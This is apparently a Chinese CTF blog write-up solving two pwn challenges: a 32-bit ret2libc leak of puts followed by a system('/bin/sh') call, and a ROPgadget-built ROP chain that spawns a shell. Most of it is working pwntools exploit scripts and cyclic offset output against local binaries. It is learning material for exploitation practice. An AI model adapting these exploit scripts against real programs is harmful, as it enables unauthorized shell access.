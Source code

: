 ```yaml
---
title: '两道水群小题'
date: 2024-01-15 13:00:00 +0800
categories: [ctf,pwn]
tags: [leak_libc,one_gadget]
---
```

## ret2libc1

- `32`位`libc`泄露
- `cyclic`确定溢出位置的使用

<img src="../assets/img/old_imgs/image-20240115131701619.png" alt="image-20240115131701619"  />

> 变量`s`存在泄露,但是这里`ida`显示的栈空间并不准确

![image-20240115131936821](../assets/img/old_imgs/image-20240115131936821.png)

> 程序中存在`system`函数,可以直接利用

```shell
bamuwe@qianenzhao:~/done/杂七杂八$ cyclic 200
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
```

![image-20240115131923818](../assets/img/old_imgs/image-20240115131923818.png)

```shell
bamuwe@qianenzhao:~/done/杂七杂八$ cyclic -l 0x62616164
112
```

得到溢出位置,`padding=112`

后续就是常规的利用,但是这里要注意第二次发送`payload`的时候栈填充长度是$104$,通过`gdb`调试可以直观的看到,不多赘述,奉上`exp`一则

```python
from pwn import *
Lib = ELF('/lib/i386-linux-gnu/libc.so.6')
#context.log_level = 'debug'
io = process('./ret2libc1')
#io = gdb.debug('./ret2libc1')
elf = ELF('./ret2libc1')
payload = b'A'*(112)+p32(elf.plt['puts'])+p32(elf.sym['main'])+p32(elf.got['puts'])
io.sendlineafter(b'RET2LIBC >_<\n',payload)
puts_addr = u32(io.recv(4))
print('puts_addr->{}'.format(hex(puts_addr)))

liboffset = puts_addr - Lib.sym['puts']
sys_addr = liboffset + Lib.sym['system']
bin_sh_addr = liboffset + next(Lib.search(b'/bin/sh'))

payload = b'A'*(100+4)+p32(sys_addr)+p32(0)+p32(bin_sh_addr)
io.sendlineafter(b'RET2LIBC >_<\n',payload)
io.interactive()
```

## rop

- one_gadgets

![image-20240115132428755](../assets/img/old_imgs/image-20240115132428755.png)

第一眼函数很多,什么都没有,但拨云见雾,不过如此

1. 通过`ROPgadgets`得到`ropchain`
2. 构造`payload`得到`shell`

```shell
bamuwe@qianenzhao:~/done/杂七杂八$ ROPgadget --binary rop --ropchain
```

```python
from pwn import *
from struct import pack
io = process('./rop')
padding = b'A'*112
# Padding goes here
p = b''

p += pack('<I', 0x0806eb6a) # pop edx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080bb196) # pop eax ; ret
p += b'/bin'
p += pack('<I', 0x0809a4ad) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806eb6a) # pop edx ; ret
p += pack('<I', 0x080ea064) # @ .data + 4
p += pack('<I', 0x080bb196) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x0809a4ad) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806eb6a) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x08054590) # xor eax, eax ; ret
p += pack('<I', 0x0809a4ad) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x0806eb91) # pop ecx ; pop ebx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8

p += pack('<I', 0x080ea060) # padding without overwrite ebx

p += pack('<I', 0x0806eb6a) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x08054590) # xor eax, eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x08049421) # int 0x80

payload = padding+p
io.sendlineafter(b'What do you plan to do?\n',payload)
io.interactive()
```

